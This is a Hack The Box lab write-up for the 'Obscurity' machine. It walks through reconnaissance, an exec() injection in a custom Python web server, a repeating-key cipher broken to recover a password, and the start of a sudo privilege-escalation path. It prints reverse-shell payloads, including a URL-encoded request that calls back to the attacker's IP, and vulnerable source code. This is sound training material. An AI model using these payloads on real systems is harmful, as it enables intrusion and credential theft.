


# Obscurity


# Information Gathering

## Nmap

```console
root@discovery:~/htb/obscurity# nmap -sV -sC 10.10.10.168
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-13 13:54 EST
Nmap scan report for obscurity.htb (10.10.10.168)
Host is up (0.11s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:d3:9a:0d:97:2c:54:20:e1:b0:17:34:f4:ca:70:1b (RSA)
|   256 f6:8b:d5:73:97:be:52:cb:12:ea:8b:02:7c:34:a3:d7 (ECDSA)
|_  256 e8:df:55:78:76:85:4b:7b:dc:70:6a:fc:40:cc:ac:9b (ED25519)
80/tcp   closed http
8080/tcp open   http-proxy BadHTTPServer
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 13 Feb 2020 18:55:11
|     Server: BadHTTPServer
|     Last-Modified: Thu, 13 Feb 2020 18:55:11
|     Content-Length: 4171
|     Content-Type: text/html
|     Connection: Closed
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>0bscura</title>
|     <meta http-equiv="X-UA-Compatible" content="IE=Edge">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="keywords" content="">
|     <meta name="description" content="">
|     <!-- 
|     Easy Profile Template
|     http://www.templatemo.com/tm-467-easy-profile
|     <!-- stylesheet css -->
|     <link rel="stylesheet" href="css/bootstrap.min.css">
|     <link rel="stylesheet" href="css/font-awesome.min.css">
|     <link rel="stylesheet" href="css/templatemo-blue.css">
|     </head>
|     <body data-spy="scroll" data-target=".navbar-collapse">
|     <!-- preloader section -->
|     <!--
|     <div class="preloader">
|_    <div class="sk-spinner sk-spinner-wordpress">
|_http-server-header: BadHTTPServer
|_http-title: 0bscura
9000/tcp closed cslistener
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.80%I=7%D=2/13%Time=5E459B5E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20Thu,\x2013\x20Feb\x2020
SF:20\x2018:55:11\nServer:\x20BadHTTPServer\nLast-Modified:\x20Thu,\x2013\
SF:x20Feb\x202020\x2018:55:11\nContent-Length:\x204171\nContent-Type:\x20t
SF:ext/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20html>\n<html\x20lang=\"
SF:en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t<title>0bscura</title>\
SF:n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20content=\"IE=Edge\">\n\t<
SF:meta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-s
SF:cale=1\">\n\t<meta\x20name=\"keywords\"\x20content=\"\">\n\t<meta\x20na
SF:me=\"description\"\x20content=\"\">\n<!--\x20\nEasy\x20Profile\x20Templ
SF:ate\nhttp://www\.templatemo\.com/tm-467-easy-profile\n-->\n\t<!--\x20st
SF:ylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/boo
SF:tstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/font-a
SF:wesome\.min\.css\">\n\t<link\x20rel=\"stylesheet\"\x20href=\"css/templa
SF:temo-blue\.css\">\n</head>\n<body\x20data-spy=\"scroll\"\x20data-target
SF:=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20section\x20-->\n<!--\n<
SF:div\x20class=\"preloader\">\n\t<div\x20class=\"sk-spinner\x20sk-spinner
SF:-wordpress\">\n")%r(HTTPOptions,10FC,"HTTP/1\.1\x20200\x20OK\nDate:\x20
SF:Thu,\x2013\x20Feb\x202020\x2018:55:11\nServer:\x20BadHTTPServer\nLast-M
SF:odified:\x20Thu,\x2013\x20Feb\x202020\x2018:55:11\nContent-Length:\x204
SF:171\nContent-Type:\x20text/html\nConnection:\x20Closed\n\n<!DOCTYPE\x20
SF:html>\n<html\x20lang=\"en\">\n<head>\n\t<meta\x20charset=\"utf-8\">\n\t
SF:<title>0bscura</title>\n\t<meta\x20http-equiv=\"X-UA-Compatible\"\x20co
SF:ntent=\"IE=Edge\">\n\t<meta\x20name=\"viewport\"\x20content=\"width=dev
SF:ice-width,\x20initial-scale=1\">\n\t<meta\x20name=\"keywords\"\x20conte
SF:nt=\"\">\n\t<meta\x20name=\"description\"\x20content=\"\">\n<!--\x20\nE
SF:asy\x20Profile\x20Template\nhttp://www\.templatemo\.com/tm-467-easy-pro
SF:file\n-->\n\t<!--\x20stylesheet\x20css\x20-->\n\t<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/bootstrap\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/font-awesome\.min\.css\">\n\t<link\x20rel=\"stylesheet
SF:\"\x20href=\"css/templatemo-blue\.css\">\n</head>\n<body\x20data-spy=\"
SF:scroll\"\x20data-target=\"\.navbar-collapse\">\n\n<!--\x20preloader\x20
SF:section\x20-->\n<!--\n<div\x20class=\"preloader\">\n\t<div\x20class=\"s
SF:k-spinner\x20sk-spinner-wordpress\">\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.57 seconds
```

**22**, **8080**, and **9000** showed up in the nmap scan. I am going to do a full tcp port scan while I enumerate on these ports. **8080** is the most interesting, it appears to be a `SimpleHTTPServer`-esque type deal.

```console
root@discovery:~/htb/obscurity# nmap -p- -T5 10.10.10.168
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-13 13:54 EST
Nmap scan report for obscurity.htb (10.10.10.168)
Host is up (0.087s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   closed http
8080/tcp open   http-proxy
9000/tcp closed cslistener

Nmap done: 1 IP address (1 host up) scanned in 128.10 seconds
```

The full scan didn't discover anything more interesting.

## Dirb

```console
root@discovery:~/htb/obscurity# dirb http://obscure.htb:8080/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Feb 13 14:07:21 2020
URL_BASE: http://obscure.htb:8080/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://obscure.htb:8080/ ----
+ http://obscure.htb:8080/index.html (CODE:200|SIZE:4171)                                                        
                                                                                                                 
-----------------
END_TIME: Thu Feb 13 14:43:56 2020
DOWNLOADED: 4612 - FOUND: 1
```

Dirb did not have anything at all helpful. I am going to run another scan with the `big.txt` list.

## Nikto

```console
root@discovery:~/htb/obscurity# nikto -h 10.10.10.168:8080
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.168
+ Target Hostname:    10.10.10.168
+ Target Port:        8080
+ Start Time:         2020-02-13 13:59:01 (GMT-5)
---------------------------------------------------------------------------
+ Server: BadHTTPServer
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ ERROR: Error limit (20) reached for host, giving up. Last error: error reading HTTP response
+ Scan terminated:  20 error(s) and 4 item(s) reported on remote host
+ End Time:           2020-02-13 14:07:27 (GMT-5) (506 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Also nothing in nikto. hmm.

# Exploitation  

I added `10.10.10.168` to my `/etc/hosts` file as `obscure.htb` (well I used `obscurity.htb` first but it had the former on the site itself. I figured that was the intended name).

Head to the site in firefox at port **8080**: 



It looks like a kind of blank page -- not much that is interactive. There was an interesting blip at the bottom about a `SuperSecureServer.py` script or something:

  

I want to tug on this thread a little and see where it goes. Since `dirb` and `nikto` weren't really helpful. I was pretty stuck -- in turning to the forums for a hint I was advised to use the `wfuzz` tool. It took some playing around with and thinking about how to format my command, but I arrived to the python script with `wfuzz`:

```console
root@discovery:~/htb/obscurity# wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt --hc 404 -u http://obscure.htb:8080/FUZZ/SuperSecureServer.py

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://obscure.htb:8080/FUZZ/SuperSecureServer.py
Total requests: 4614

===================================================================
ID           Response   Lines    Word     Chars       Payload                                          
===================================================================

000001245:   200        170 L    498 W    5892 Ch     "develop"                                        

Total time: 108.5930
Processed Requests: 4614
Filtered Requests: 4613
Requests/sec.: 42.48889
```

In going to `http://obscure.htb:8080/develop/SuperSecureServer.py` I get the following script:

```python

import socket
import threading
from datetime import datetime
import sys
import os
import mimetypes
import urllib.parse
import subprocess

respTemplate = """HTTP/1.1 {statusNum} {statusCode}
Date: {dateSent}
Server: {server}
Last-Modified: {modified}
Content-Length: {length}
Content-Type: {contentType}
Connection: {connectionType}

{body}
"""
DOC_ROOT = "DocRoot"

CODES = {"200": "OK", 
        "304": "NOT MODIFIED",
        "400": "BAD REQUEST", "401": "UNAUTHORIZED", "403": "FORBIDDEN", "404": "NOT FOUND", 
        "500": "INTERNAL SERVER ERROR"}

MIMES = {"txt": "text/plain", "css":"text/css", "html":"text/html", "png": "image/png", "jpg":"image/jpg", 
        "ttf":"application/octet-stream","otf":"application/octet-stream", "woff":"font/woff", "woff2": "font/woff2", 
        "js":"application/javascript","gz":"application/zip", "py":"text/plain", "map": "application/octet-stream"}


class Response:
    def __init__(self, **kwargs):
        self.__dict__.update(kwargs)
        now = datetime.now()
        self.dateSent = self.modified = now.strftime("%a, %d %b %Y %H:%M:%S")
    def stringResponse(self):
        return respTemplate.format(**self.__dict__)

class Request:
    def __init__(self, request):
        self.good = True
        try:
            request = self.parseRequest(request)
            self.method = request["method"]
            self.doc = request["doc"]
            self.vers = request["vers"]
            self.header = request["header"]
            self.body = request["body"]
        except:
            self.good = False

    def parseRequest(self, request):        
        req = request.strip("\r").split("\n")
        method,doc,vers = req[0].split(" ")
        header = req[1:-3]
        body = req[-1]
        headerDict = {}
        for param in header:
            pos = param.find(": ")
            key, val = param[:pos], param[pos+2:]
            headerDict.update({key: val})
        return {"method": method, "doc": doc, "vers": vers, "header": headerDict, "body": body}


class Server:
    def __init__(self, host, port):    
        self.host = host
        self.port = port
        self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.sock.bind((self.host, self.port))

    def listen(self):
        self.sock.listen(5)
        while True:
            client, address = self.sock.accept()
            client.settimeout(60)
            threading.Thread(target = self.listenToClient,args = (client,address)).start()

    def listenToClient(self, client, address):
        size = 1024
        while True:
            try:
                data = client.recv(size)
                if data:
                    # Set the response to echo back the recieved data 
                    req = Request(data.decode())
                    self.handleRequest(req, client, address)
                    client.shutdown()
                    client.close()
                else:
                    raise error('Client disconnected')
            except:
                client.close()
                return False
    
    def handleRequest(self, request, conn, address):
        if request.good:
#            try:
                # print(str(request.method) + " " + str(request.doc), end=' ')
                # print("from {0}".format(address[0]))
#            except Exception as e:
#                print(e)
            document = self.serveDoc(request.doc, DOC_ROOT)
            statusNum=document["status"]
        else:
            document = self.serveDoc("/errors/400.html", DOC_ROOT)
            statusNum="400"
        body = document["body"]
        
        statusCode=CODES[statusNum]
        dateSent = ""
        server = "BadHTTPServer"
        modified = ""
        length = len(body)
        contentType = document["mime"] # Try and identify MIME type from string
        connectionType = "Closed"


        resp = Response(
        statusNum=statusNum, statusCode=statusCode, 
        dateSent = dateSent, server = server, 
        modified = modified, length = length, 
        contentType = contentType, connectionType = connectionType, 
        body = body
        )

        data = resp.stringResponse()
        if not data:
            return -1
        conn.send(data.encode())
        return 0

    def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
            requested = os.path.join(docRoot, path[1:])
            if os.path.isfile(requested):
                mime = mimetypes.guess_type(requested)
                mime = (mime if mime[0] != None else "text/html")
                mime = MIMES[requested.split(".")[-1]]
                try:
                    with open(requested, "r") as f:
                        data = f.read()
                except:
                    with open(requested, "rb") as f:
                        data = f.read()
                status = "200"
            else:
                errorPage = os.path.join(docRoot, "errors", "404.html")
                mime = "text/html"
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

## User Flag

After a couple of hours of trial and error I was able to craft a request in burp that got me a low-priv, shitty shell as `www-data`.

In the function `serveDoc` there is a line where the python function `exec()` is called. 

```python
exec(info.format(path))  # This is how you do string formatting, right?
```

This function is used to execute a python program either as a string or as code itself. This can be leveraged to execute my arbitrary code -- a reverse shell in this case.

To leverage this, I need to send a request which is evaluated by that code -- I will do this in Burp, which will allow me to repeatedly send requests that are just as easy to modify.

The request that gets made to `http://obscure.htb:8080` when I browse to it in a browser looks like this:

```console
GET / HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
If-Modified-Since: Fri, 14 Feb 2020 02:51:48
```

I can inject my code right after the `GET` HTTP request. I figure since this is written in python I can be confident that python is on this box and should work. The shell I am going to use is from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and I just need to modify it for my use case:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I won't need to invoke `python -c` in my request since it will be executed in python already. I will also need to add my own IP and listening port, as well as URL encode it so that its passed correctly through HTTP. I will also comment out anything after the command with a `#`:

```console
GET /';import%20socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.75",42069));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")# HTTP/1.1
Host: obscure.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
```

I started my listener and caught the shell back after passing the above request through burp:

```console
root@discovery:~/htb/obscurity# nc -lvnp 42069
listening on [any] 42069 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.168] 53266
www-data@obscure:/$ id;pwd;ls 
id;pwd;ls
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
www-data@obscure:/$ 
```
Alright, so no access to the user `robert` flag so far. But it looks like I've got some acess to a few files in his directory:

```console
www-data@obscure:/home/robert$ ls -la
ls -la
total 60
drwxr-xr-x 7 robert robert 4096 Dec  2 09:53 .
drwxr-xr-x 3 root   root   4096 Sep 24 22:09 ..
lrwxrwxrwx 1 robert robert    9 Sep 28 23:28 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
drwxr-xr-x 2 root   root   4096 Dec  2 09:47 BetterSSH
drwx------ 2 robert robert 4096 Oct  3 16:02 .cache
-rw-rw-r-- 1 robert robert   94 Sep 26 23:08 check.txt
drwxr-x--- 3 robert robert 4096 Dec  2 09:53 .config
drwx------ 3 robert robert 4096 Oct  3 22:42 .gnupg
drwxrwxr-x 3 robert robert 4096 Oct  3 16:34 .local
-rw-rw-r-- 1 robert robert  185 Oct  4 15:01 out.txt
-rw-rw-r-- 1 robert robert   27 Oct  4 15:01 passwordreminder.txt
-rw-r--r-- 1 robert robert  807 Apr  4  2018 .profile
-rwxrwxr-x 1 robert robert 2514 Oct  4 14:55 SuperSecureCrypt.py
-rwx------ 1 robert robert   33 Sep 25 14:12 user.txt
www-data@obscure:/home/robert$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
```
Something I saw recently that I liked was upgrading my weak shells with ones with *at least* tab complete. I did that here with the following steps:

* background my shell with `ctrl+z`
* type `stty raw -echo` in my local shell
* foreground my shell `fg + [enter x2]`

```console
www-data@obscure:/$ ^Z
[1]+  Stopped                 nc -lvnp 42069
root@discovery:~/htb/obscurity# stty raw -echo
root@discovery:~/htb/obscurity# nc -lvnp 42069

www-data@obscure:/$ ls
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
www-data@obscure:/$ cd home/
www-data@obscure:/home$ 
```
Sweet -- tab complete works now. Now its time to look for something to privesc to robert. 

```console
www-data@obscure:/home/robert$ cat check.txt 
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
ww-data@obscure:/home/robert$ cat out.txt 
¦ÚÈêÚÞØÛÝÝ×ÐÊßÞÊÚÉæßÝËÚÛÚêÙÉëéÑÒÝÍÐêÆáÙÞãÒÑÐáÙ¦ÕæØãÊÎÍßÚêÆÝáäèÎÍÚÎëÑÓäáÛÌ×v
www-data@obscure:/home/robert$ cat passwordreminder.txt
ÑÈÌÉàÙÁÑ鯷¿k
```
`BetterSSH.py`, in the `/BetterSSH/` directory:

```python  
import sys                                                                                                        
import random, string                                                                                             
import os                                                                                                         
import time                                                                                                       
import crypt                                                                                                      
import traceback                                                                                                  
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

`SuperSecureCrypt.py`:

```python 

import sys
import argparse

def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted

def decrypt(text, key):
    keylen = len(key)
    keyPos = 0
    decrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr - ord(keyChr)) % 255)
        decrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return decrypted

parser = argparse.ArgumentParser(description='Encrypt with 0bscura\'s encryption algorithm')

parser.add_argument('-i',
                    metavar='InFile',
                    type=str,
                    help='The file to read',
                    required=False)

parser.add_argument('-o',
                    metavar='OutFile',
                    type=str,
                    help='Where to output the encrypted/decrypted file',
                    required=False)

parser.add_argument('-k',
                    metavar='Key',
                    type=str,
                    help='Key to use',
                    required=False)

parser.add_argument('-d', action='store_true', help='Decrypt mode')

args = parser.parse_args()

banner = "################################\n"
banner+= "#           BEGINNING          #\n"
banner+= "#    SUPER SECURE ENCRYPTOR    #\n"
banner+= "################################\n"
banner += "  ############################\n"
banner += "  #        FILE MODE         #\n"
banner += "  ############################"
print(banner)
if args.o == None or args.k == None or args.i == None:
    print("Missing args")
else:
    if args.d:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Decrypting...")
        decrypted = decrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(decrypted)
    else:
        print("Opening file {0}...".format(args.i))
        with open(args.i, 'r', encoding='UTF-8') as f:
            data = f.read()

        print("Encrypting...")
        encrypted = encrypt(data, args.k)

        print("Writing to {0}...".format(args.o))
        with open(args.o, 'w', encoding='UTF-8') as f:
            f.write(encrypted)
```

Arg, more python. But luckily the `SuperSecureCrypt.py` one seems to make a little more sense. Taking a look at the encryption function:

```python
def encrypt(text, key):
    keylen = len(key)
    keyPos = 0
    encrypted = ""
    for x in text:
        keyChr = key[keyPos]
        newChr = ord(x)
        newChr = chr((newChr + ord(keyChr)) % 255)
        encrypted += newChr
        keyPos += 1
        keyPos = keyPos % keylen
    return encrypted
```
The "encryption" is simply taking the input of some text and a key, taking the length of the key and finding the remainder after division of it by 255 -- also known as modulus of that operation.

In looking at what other files I've got on the system, and how some looked like encrypted data when I `cat`'d them this is what I think is happening:

* **check.txt** is the original file before being run through the encryption.
* **out.txt** is the encrypted version of check.txt.
* **passwordreminder.txt** is likely a hint to robert's password (or even the password itself).

So users being users probably used the same key for both the test file and the password reminder. I might could use the decrypt function on the **out.txt** file to get the key because if you know the plaintext of what is encrypted you can tell what was used to encrypt it.

I am going to move everything to a temporary directory first:

```console
www-data@obscure:/tmp/sdb$ cp -r /home/robert /tmp/sdb/
cp: cannot open '/home/robert/user.txt' for reading: Permission denied
cp: cannot access '/home/robert/.gnupg': Permission denied
cp: cannot access '/home/robert/.cache': Permission denied
cp: cannot access '/home/robert/.local/share': Permission denied
cp: cannot access '/home/robert/.config': Permission denied
www-data@obscure:/tmp/sdb$ ls
BetterSSH  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py
```
And luckily theres a help file to assist in crafting my command:

```console
www-data@obscure:/tmp/sdb$ python3 SuperSecureCrypt.py --help
usage: SuperSecureCrypt.py [-h] [-i InFile] [-o OutFile] [-k Key] [-d]

Encrypt with 0bscura's encryption algorithm

optional arguments:
  -h, --help  show this help message and exit
  -i InFile   The file to read
  -o OutFile  Where to output the encrypted/decrypted file
  -k Key      Key to use
  -d          Decrypt mode
```

After some trial and error I got to this command, I had some trouble with getting the key file to be read correctly: 

```console
www-data@obscure: python3 SuperSecureCrypt.py -i out.txt -o /tmp/sdb/key.txt -k "$(cat check.txt)" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to /tmp/sdb/key.txt...
www-data@obscure:/tmp/sdb$ ls
BetterSSH  key.txt  passwordreminder.txt
check.txt  out.txt  SuperSecureCrypt.py
www-data@obscure:/tmp/sdb$ cat key.txt 
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichai
```
So the key looks like its a repeating of `alexandrovich`. Now to decrypt the actual password:

```console
python3 SuperSecureCrypt.py -d -k alexandrovich -i passwordreminder.txt -o /tmp/sdb/pass.txt
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file passwordreminder.txt...
Decrypting...
Writing to /tmp/sdb/pass.txt...
www-data@obscure:/tmp/sdb$ ls
BetterSSH  key.txt  pass.txt              SuperSecureCrypt.py
check.txt  out.txt  passwordreminder.txt
www-data@obscure:/tmp/sdb$ cat pass.txt
SecThruObsFTW
```
so `robert:SecThruObsFTW` are user credentials, can I ssh as `robert` to the box?

```console
root@discovery:~/htb/obscurity# ssh robert@10.10.10.168
robert@10.10.10.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb 14 20:01:20 UTC 2020

  System load:  0.0               Processes:             105
  Usage of /:   45.8% of 9.78GB   Users logged in:       0
  Memory usage: 8%                IP address for ens160: 10.10.10.168
  Swap usage:   0%


40 packages can be updated.
0 updates are security updates.


Last login: Mon Dec  2 10:23:36 2019 from 10.10.14.4
robert@obscure:~$ ls
BetterSSH  check.txt  out.txt  passwordreminder.txt  SuperSecureCrypt.py  user.txt
robert@obscure:~$ cat user.txt 
e4493782066b55fe2755708736ada2d7
```
Yes I can!

## Root Flag

First steps first -- get [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) over to the machine. I will post relevent details since the output can be so verbose.

The thing that sticks out to me like a sore thumb is that I can run `BetterSSH.py` as sudo with no password:

```console
User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
So let me take a look at that script and see what's going on:

```python
import sys
import random, string
import os
import time
import crypt
import traceback
import subprocess

path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break

    if salt == "":
        print("Invalid user")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    salt = '$6$'+salt+'$'
    realPass = salt + realPass

    hash = crypt.crypt(passW, salt)

    if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

